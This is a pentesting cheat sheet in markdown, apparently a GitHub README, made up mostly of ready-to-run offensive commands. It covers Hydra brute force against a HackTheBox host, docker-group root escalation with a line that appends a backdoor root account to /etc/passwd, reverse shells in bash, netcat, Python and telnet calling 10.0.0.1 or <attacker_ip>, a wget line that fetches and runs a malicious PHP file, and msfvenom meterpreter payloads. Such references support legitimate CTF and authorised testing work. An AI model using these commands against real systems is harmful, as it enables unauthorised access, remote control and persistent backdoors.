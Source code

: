 ### Python simple HTTP server
```Python
python -m SimpleHTTPServer 
```
### Kali Linux assign two network interfaces
Edit `/etc/network/interfaces` and add these lines
```
auto eth0 
iface eth0 inet dhcp 
 
 
auto eth1 
iface eth1 inet dhcp 

```
And then restart the network with following commands.
```bash
systemctl stop networking 
systemctl start networking 
```
### Get interactive bash shell using python
```Python
python -c "import pty;pty.spawn('/bin/bash')"
```
### Get interactive bash shell using OS.System
```
echo os.system('/bin/bash')
```
## Helpful firefox addons
### FoxyProxy
> FoxyProxy is a Firefox extension which automatically switches an internet connection across one or more proxy servers based on URL patterns. Put simply, FoxyProxy automates the manual process of editing Firefox's Connection Settings dialog. Proxy server switching occurs based on the loading URL and the switching rules you define
### Fireforce
> brute-force attacks on GET or POST forms

### Poster
> A developer tool for interacting with web services and other web resources that lets you make HTTP requests, set the entity body, and content type. 

## Brute-force techniques
### THC Hydra
```bash
hydra -l admin -P /usr/share/wordlist/rockyou.txt docker.hackthebox.eu http-post-form "/:password=^PASS^:Invalid password!" -s 35644
```
## Privilege Escalation Techniques
[Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[Offensive Bash Scripts](https://github.com/6odhi/myarsenal/blob/master/README.md)
### User part of docker group   
You land on a computer and `id` shows you're part of the `docker` group. Escalate to root with:

```bash
$> docker run -it --rm -v $PWD:/mnt bash
```

adds backdoor toor:password
```bash
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
``` 
## Reverse shell techniques
### Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### Netcat
```bash
nc -e /bin/sh 10.0.0.1 1234
```
### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
### Few more reverse shell techniques
courtesy: https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/

```bash
#1
nc <attacker_ip> <port> -e /bin/bash
#2
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
#3
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
#4
mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
#5
telnet <attacker_ip> <1st_port> | /bin/bash | telnet <attacker_ip> <2nd_port>
#7
wget -O /tmp/bd.php <url_to_malicious_file> && php -f /tmp/bd.php
```
### Reverse shell payload using msfvenom
```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.172.4 lport=443 -f raw

# widows asp reverse shell payload
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.172.4 lport=2222 -e x86/shikata_ga_nai -f asp > met.asp 

# jsp reverse shell payload
msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.172.4 lport=2222 -f raw > cmd.jsp
```
## Miscellaneous Techniques
### Checking SUID files available in the system by running
> SUID(Set owner User ID up on execution) is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it. In simple words users will get file ownerâs permissions as well as owner UID and GID when executing a file/program/command
```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm +4000 2> /dev/null
```

Set and Unset SUID on files:
```bash
$ sudo chmod u+s /usr/bin/whoami # set SUID for whoami

$ sudo chmod u-s /usr/bin/whoami # Unset SUID
```
### Port and Host IP Scanning without NMap/Permissions
[No Nmap, No Permissions, No Problem](https://www.lanmaster53.com/2010/04/16/no-nmap-no-permissions-no-problem/)
## *Nix Commands
## Kali tools
### binwalk
> Binwalk is a tool for searching a given binary image for embedded files and executable code. Specifically, it is designed for identifying files and code embedded inside of firmware images.
```bash
binwalk <img_path>

# extract images recursively
binwalk -Me <image_path>
```
